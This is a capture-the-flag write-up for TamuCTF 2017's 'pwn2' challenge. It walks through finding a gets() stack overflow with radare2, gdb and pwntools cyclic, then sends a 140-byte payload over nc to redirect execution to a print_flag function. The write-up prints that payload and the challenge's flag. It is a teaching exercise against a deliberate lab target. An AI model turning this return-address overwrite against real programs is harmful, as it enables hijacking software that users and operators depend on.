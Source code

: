# [TamuCTF 2017](https://ctf.tamu.edu/)
### pwn2 - 100 Points

![Pwn2 challenge description](assets/1-pwn2_description.png)

We are given a source code file and a binary which is being run remotely.
Let's a analyze it with radare2:

```bash
$ wget https://ctf.tamu.edu/files/dacdf9d7951deede662f1b89e4ec2a90/pwn2
$ r2 pwn2
[0x08048450]> aaa		# Analyze
[0x08048450]> afl		# List functions found
.
.
0x0804854b    4 103          sym.print_flag
0x080485b2    1 84           sym.echo
0x08048606    1 36           sym.main
.
.
```

We can see similar functions to the previous pwning challenge, but there a complication here: if we look closely...

```bash
[0x080485c0]> s sym.print_flag 
[0x0804854b]> axt
[0x0804854b]>
```

We realize that **print_flag** function, which is responsible for printing the flag stored in **flag.txt**, is never called!  
Instead a new function named **echo** is called from **main** function.

![Pwn2 call in main function](assets/2-pwn2_call_echo_in_main.png)

Lets see what it does:

```bash
$ pdf @ sym.echo
```
![Pwn2 echo function content](assets/3-pwn2_echo_function.png)

Ok, so aparently it just prints back whatever you input before. But hey! To read your input it uses `gets` insecure function again!  That means we can write beyond the allocated memory for our input.
> "All right, but this case is not like the previous one! ([pwn1 challenge](../pwn1/pwn1.md)).  
> We do not want to change the value of a variable, but to call an existent function!"
> Is it possible?

Hell yeah! but to know how, we first need to understand how the stack is affected when calling a function (echo in this case).  
When a function is going to be called, some data is going to be pushed into the stack. Among other things one of the stuff is stored is the EIP register.

> "Why this register? Why is it special?"

The purpose of EIP register (or instruction pointer) is to indicate the CPU which instruction has to be executed after the current one. When the **echo** function will finish the CPU will need to continue the execution right after the call.  
Like this:

![Pwn2 Normal execution flow](assets/4-pwn2_normal_flow.png)    

And the stack will look like:

![Pwn2 Stack view on echo call](assets/5-pwn2_stack_view.png)    

Nice :v:!, looking at the stack we realize we could just write a bunch of bytes until we reach the **Saved EIP** value!

> Okay but ... how many bytes do we have to write?

Well, in this case we can calculate like `0x88h + 4d (ESP length) = 140d`, but I'll calculate another way too.  
Lets use gdb (GNU Debugger).

```bash
$ python -c 'print("A"*500)' > input.txt    # We generate a long string and save it in a text file.
$ gdb pwn2                                  # We open the binary with gdb.
(gdb) run < input.txt                       # Run the binary with the content of input.txt as input.
```

![Pwn2 GDB executing pwn2](assets/6-pwn2_gdb.png) 

We ran the binary with gdb and passed 500 "A"s as input.
That `0x41414141` means that we have overwritten EIP register with value "AAAA" and the process crashed when it tried to execute the instrucction of that address (obviously there is nothing there).

So now we could just create a custom string like "ABCDEF...." to figure out which part of the string is being used to overwrite the EIP ... OR we can use a script which generates it for us :grin:.

Now is when it comes the **pwntools** for python (to install just do `$ pip install pwntools`) and more specifically its
**cyclic** utility. **Cyclic** is able to generate a sequence of unique substrings of any length (4 by default).

Lets try it!

```bash
$ pwn cyclic 500 > input.txt  # Generate a string of 500 chars with unique substrings of 4 characters.
$ gdb pwn2
(gdb) run < input.txt
```

![Pwn2 GDB Executing pwn2](assets/7-pwn2_gdb_cyclic.png) 

To check that value we do:
```bash
$ pwn cyclic -l 0x6261616b
140
```

And finally, after 140 Characters we write a new address to continue the execution. Which address? the address of the **print_flag** function, of course! The new execution flow will look like this:

![Pwn2 Modified execution flow](assets/8-pwn2_modified_flow.png) 

Lets get our flag:
```bash
$ python -c 'print("A"*140 + "\x4b\x85\x04\x08")' | nc pwn.ctf.tamu.edu 4321 
Enter a word to be echoed:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAK�
This function has been deprecated
gigem{D34D_FUNC_R1S1NG}
```

Answer: gigem{D34D_FUNC_R1S1NG}

### Complete video

<a href="https://asciinema.org/a/e8oyx42bm4nbs5stm33o4x24s?autoplay=1"><img src="https://asciinema.org/a/e8oyx42bm4nbs5stm33o4x24s.png" width="400"/></a>

### Tools used:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [gdb](https://www.gnu.org/software/gdb/) - For binary debugging.
 * [pwntools](https://github.com/Gallopsled/pwntools) and [cyclic](http://docs.pwntools.com/en/stable/util/cyclic.html#pwnlib.util.cyclic.cyclic) - To generate unique substrings.
 * [draw.io](https://www.draw.io/) - To draw some graphics.
 * [asciinema](https://asciinema.org) - To record the session.
